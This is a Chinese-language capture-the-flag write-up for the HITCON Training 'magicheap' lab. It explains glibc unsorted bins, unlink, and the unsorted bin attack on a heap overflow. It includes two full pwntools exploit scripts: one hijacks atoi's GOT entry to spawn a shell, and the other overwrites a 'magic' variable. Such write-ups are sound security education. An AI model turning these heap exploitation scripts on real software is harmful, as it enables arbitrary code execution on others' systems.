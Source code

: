 ```yaml
---
title: lab14_magicheap
data: 2019-07-22
catagories:
- hitcon_trainning
tags: heap unlink unsortedbin_attack
---
```


<font style='font-size:25px'>Unlink | Unsortedbin_Attack</font>

# unsorted_bin_attack

## unsortedbin

- 一个`chunk`被释放时，当他不属于`fastbin`的范围且不和`top_chunk`相邻，他就会被首先放入`unsortedbin`中。

- `malloc`的时候，如果`fastbin`和`smallbin`里都找不到相应大小的`chunk`，就会去`unsortedbin`里面找。    
    如果大小满足，就会返回相应的`chunk`给用户，不满足，就会将`unsortedbin`中所有的`chunk`放入`smallbin`中。

- 是一个双向链表。   
    - FILO，从链表头部取，放进链表尾部。
    - 取出`chunk`的时候不使用`unlink`的宏。
    ```c
    bck = victim -> bk
    //victim 是当前要取出来的chunk
    unsorted_chunks(av) -> bk = bck 
    bck -> fd = unsorted_chunks(av)
    ```
## attack

- 如果控制了`victim`的bk指向`target_addr - 8`,那么`target_addr`就可以被改写成为`unsorted_bin`的地址。

- 无法更改`target_addr`为指定内容，但可以将其覆盖为一个较大的数字。

    - 可以用来更改循环次数
    - 更改判断流程
    - ......

![ctfwiki图](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/figure/unsorted_bin_attack_order.png)

# 漏洞
一个普通的菜单选择题<font style="font-size:10px">堆的专属题型（bushi</font>。    
提供`create`、`edit` & `delete`，但是`edit`里面没有检查长度造成堆溢出。     
流程中提供一个猜数功能，猜中了就可以调用`system`

# 思路
- 一个错误的想法

一开始是想用`double_free`那种思路，把`fastbins`的某一个`bin`的指针指向`got表`。所以一开始还觉得挺简单的，但很快我就想起了被寻找合适位置冒充`chunk`的`size`域支配的恐惧。     

- `unlink`

我发现基本上所有的堆溢出都可以构造出unlink的利用。只要有类似`nodelist`的指针。 

1. 构造`fake_chunk`,注意`size`大于`0x80`。
2. `delete`触发`unlink`，将`heaparray`指向`atoi`的`got`表。
3. 将`atoi@got`的内容改写成为`system@plt`。
4. 发送`/bin/sh\x00`

    **仍旧`glibc2.27`跑不了。**

- `unsorted bin attack`

    - 看了大佬的`wp`才只知道有这个攻击
    - **`glibc2.27`跑不了。**

![反汇编](https://c-ssl.duitang.com/uploads/item/201907/23/20190723155953_uv5xt.png)   
![l33t](https://c-ssl.duitang.com/uploads/item/201907/23/20190723160231_RvVGR.png)     

这里有个判断，如果`magic`是一个大于`0x1305`的数字就会执行`l33t`这个函数。    
使用`unsorted_bin_attack`更改，执行。
1. 分配3个chunk——第三个是用来隔开`top_chunk`。
2. delete(1)
3. 利用堆溢出更改`chunk_1`的bk域为`magic`的地址。
4. 再次分配一个大小相同的`chunk`。

# exp

## unlink

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

def create(sz,content):
    sleep(0.2)
    sh.sendlineafter(':','1')
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap:',content)

def edit(idx,sz,content):
    sleep(0.2)
    sh.sendlineafter('choice :','2')
    sh.sendlineafter('Index :',str(idx))
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap :',content)

def delete(idx):
    sh.sendlineafter('choice :','3')
    sh.sendlineafter('Index :',str(idx))

if __name__ == '__main__':
    sh = process('./magicheap')
    elf = ELF('./magicheap')
    libc = elf.libc
    atoi_got = elf.got['atoi']
    system_addr = elf.plt['system']
    heaparray = 0x06020E0

    create(0x90,'aaaa')
    create(0x80,'bbbb')
    create(0x80,'cccc')

    fd = heaparray - 24
    bk = heaparray - 16
    payload = p64(0) + p64(0x90) + p64(fd) + p64(bk) + cyclic(0x70) + p64(0x90) + p64(0x90) 

    pause()
    edit(0,len(payload),payload)
    delete(1)

    payload = cyclic(24) + p64(atoi_got)
    edit(0,len(payload),payload)
    
    payload = p64(system_addr)
    edit(0,len(payload),payload)

    sh.sendlineafter("choice :",'/bin/sh\x00')
    
    sh.interactive()
    sh.close()
```

## UnsortedBinAttack

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

def create(sz,content):
    sleep(0.2)
    sh.sendlineafter(':','1')
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap:',content)

def edit(idx,sz,content):
    sleep(0.2)
    sh.sendlineafter('choice :','2')
    sh.sendlineafter('Index :',str(idx))
    sh.sendlineafter('Heap :',str(sz))
    sh.sendlineafter('heap :',content)

def delete(idx):
    sh.sendlineafter('choice :','3')
    sh.sendlineafter('Index :',str(idx))

if __name__ == '__main__':
    sh = process('./magicheap')
    elf = ELF('./magicheap')
    libc = elf.libc

    magic_addr = 0x6020C0

    create(0x10,'aaaa')
    create(0x80,'bbbb')
    create(0x10,'cccc')

    delete(1)
    
    payload = cyclic(0x10) + p64(0) + p64(0x91) + p64(0) + p64(magic_addr - 0x10) 
    edit(0,len(payload),payload)
    
    create(0x80,'dddd')

    sh.sendlineafter('choice :','4869')
    sh.interactive()
    sh.close()
```

# 问题

到底是为什么`glibc2.27`没法跑？

